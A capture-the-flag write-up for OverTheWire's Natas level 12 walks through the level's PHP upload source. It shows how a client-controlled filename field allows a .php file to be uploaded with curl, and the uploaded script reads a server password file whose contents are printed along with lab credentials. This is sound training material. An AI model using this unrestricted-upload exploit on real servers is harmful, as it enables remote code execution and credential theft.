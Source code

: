 ```php
<?
function genRandomString() {
	$length = 10;
	$characters = "0123456789abcdefghijklmnopqrstuvwxyz";
	$string = "";
	for ($p = 0; $p < $length; $p++) {
	    $string .= $characters[mt_rand(0, strlen($characters)-1)];
	}
	
	return $string;
}

function makeRandomPath($dir, $ext) {
	do {
		$path = $dir."/".genRandomString().".".$ext;
	} while(file_exists($path));
	return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
	$ext = pathinfo($fn, PATHINFO_EXTENSION);
	return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
	$target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);
	
	if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
		echo "File is too big";
	} else {
		if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
			echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
		} else{
			echo "There was an error uploading the file, please try again!";
		}
	}
} else {
?>
```

This level allows for image/file uploads. From the source code, we can see that a destination path will be generate:

```
/upload/<random string>.<extension>
```

`<random string>` will be random, but `<extension>` will be determined through `"filename"`. And the filename will be uploaded through a POST request

However, in the input field for the file:
```html
<input type="hidden" name="filename" value="<?php print genRandomString(); ?>.jpg" />
```

Meaning `<extension>` for this will always be jpg. So I used `curl` to set the filename and the `uploadedfile` because `uploadedfile` will be the one that gets worked with.

I also created an `image.php` containing `<?php phpinfo(); ?>`. I wanted to test out if uploading a script file would work.

```sh
curl -u natas12:YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG  -F "filename=test.php" -F "uploadedfile=@./test.php" http://natas12.natas.labs.overthewire.org
```

This gave me this:
```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas12", "pass": "YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG" };</script></head>
<body>
<h1>natas12</h1>
<div id="content">
The file <a href="upload/swhfe2r5l5.php">upload/swhfe2r5l5.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

We can see that the file is now uploaded to `upload/swhfe2r5l5.php` so if we go to `http://natas12.natas.labs.overthewire.org/upload/swhfe2r5l5.php`, we will see our script, which shows a `phpinfo()` page.

So we confirmed that uploading scripts works. Let's write a script that allows us to read the password of natas13:
```php
<?php
$password = file_get_contents("/etc/natas_webpass/natas13");
echo $password;
?>
```

When I run this script using the same curl command, I got this:
```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas12", "pass": "YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG" };</script></head>
<body>
<h1>natas12</h1>
<div id="content">
The file <a href="upload/96yvfu2czv.php">upload/96yvfu2czv.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

When I go to `upload/96yvfu2czv.php`, I got this:
```
lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9
```
